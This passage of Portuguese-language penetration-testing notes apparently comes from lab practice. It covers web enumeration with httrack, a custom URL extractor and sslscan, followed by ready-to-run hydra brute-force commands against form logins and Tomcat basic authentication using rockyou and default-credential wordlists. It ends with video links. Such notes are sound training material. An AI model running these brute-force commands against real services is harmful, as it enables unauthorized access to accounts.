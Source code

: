     httrack https://atsserver.acute.local
    cd hts-cache
    cat new.txt | cut -f 8

Dentro do diretório de ferramentas de web, eu coloquei uma ferramenta que fiz uma pequena alteração para extrair as URLs do site (sem estar autenticado):

    /home/acosta/work/Area_de_trabalho/tools/web/2_enumeration/urlExtract -r 4 https://<hostname>

ou

    /home/acosta/go/bin/urlExtract -r 4 https://<hostname>

ou somente

    urlExtract -r 4 https://<hostname>

### sslscan

Dessa forma podemos obter subdomínios identificados em certificados:

    sslscan https://<hostname>

### Enumeracao de usuario e brute force

**OBS: Para alterar o User-Agent deve ser informado o cabeçalho via H:.... Segue exemplo abaixo. Vale ressaltar que para o basic authentication essa feature não é suportada e tem que ser feito ajustes via proxy (no burp, por exemplo)**

    hydra -l root@locahost -P /usr/share/wordlist/rockyou.txt 10.11.1.39 http-post-form "/otrs/index.pl:H=User-Agent\: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv\:88.0) Gecko/20100101 Firefox/88.0':Action=Login&RequestedURL=&Lang=en&TimeOffset=300&User=root@localhost&Password=^PASS^:Login failed!"

#### get basic authentication
    hydra -C /usr/share/seclists/Passwords/Default-Credentials/tomcat-betterdefaultpasslist.txt 10.11.1.209 -s 8080 http-get /manager/html

onde -s é a porta
http-get é o método a ser utilizado
/manager/html é o diretório pelo qual estamos tentando nos autenticar
e - C colon separated "login:pass" format, instead of -L/-P options

COM SSL

    proxychains hydra -L usernames.txt -P passwords.txt 10.10.10.7 -s 443 -S http-get /admin/config.php

#### post (Form authentication)

    hydra -l root@locahost -P /usr/share/wordlist/rockyou.txt 10.11.1.39 http-post-form "/otrs/index.pl:Action=Login&RequestedURL=&Lang=en&TimeOffset=300&User=root@localhost&Password=^PASS^:Login failed!"

### Referência em vídeo

![type:video](https://youtube.com/embed/xuJCzHr6ZWY)

[Enumeração diretórios via URL escondidas com ffuf](https://www.youtube.com/watch?v=xuJCzHr6ZWY&t=205s)  
[Enumeração de arquivos escondidos via URL com ffuf](https://www.youtube.com/watch?v=xuJCzHr6ZWY&t=410s)  
[Inspecionando o código da página](https://www.youtube.com/watch?v=xuJCzHr6ZWY&t=660s)  
[Procura por CVE da aplicação](https://www.youtube.com/watch?v=xuJCzHr6ZWY&t=846s)  
[Verificar cabeçalhos da aplicação](https://www.youtube.com/watch?v=xuJCzHr6ZWY&t=920s)  
[Scan de vulnerabilidade com nikto](https://www.youtube.com/watch?v=xuJCzHr6ZWY&t=1000s)  
[Brute Force com hydra par autenticação HTTP básica](https://www.youtube.com/watch?v=xuJCzHr6ZWY&t=1110s)  
[Brute Force com hydra par autenticação HTTP básica com SSL/TLS](https://www.youtube.com/watch?v=xuJCzHr6ZWY&t=1198s)  